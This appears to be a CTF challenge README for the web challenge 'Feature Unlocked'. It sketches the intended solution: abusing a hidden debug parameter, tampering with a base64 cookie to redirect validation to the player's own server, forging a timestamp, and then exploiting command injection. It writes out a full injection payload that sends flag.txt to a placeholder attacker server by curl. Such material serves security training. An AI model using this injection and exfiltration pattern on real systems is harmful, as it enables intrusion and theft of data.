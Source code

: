# Feature Unlocked

### Web application advertising a new feature, but it only unlocks 7 days after the CTF

- Players read code and find the hardcoded `debug=true` GET param
- When this is set, it will read the `validation_server` from the `preferences` cookie, if specified
- Players must b64 decode the cookie, add their own validation server and resubmit the cookie (with the GET param)
- On the attacker server, they should generate some keys ([gen_key.py](solution/gen_key.py)) and forge a timestamp ([server.py](solution/server.py)) 7+ days in the future
- Now, they will get access to the new feature! An access cookie will be granted so that they can visit `/feature`
- This is part 2 of the challenge, a word counting feature with simple command injection
- There is no output to the command, so players should exfiltrate the flag using curl, e.g. `hi; curl https://ATTACKER_SERVER?lol=$(cat flag.txt | base64)`

For a detailed and in-depth explanation of the `Feature Unlocked` challenge, you can refer to [this](https://crypto-cat.gitbook.io/ctf-writeups/2024/cyberspace/web/feature_unlocked) writeup.
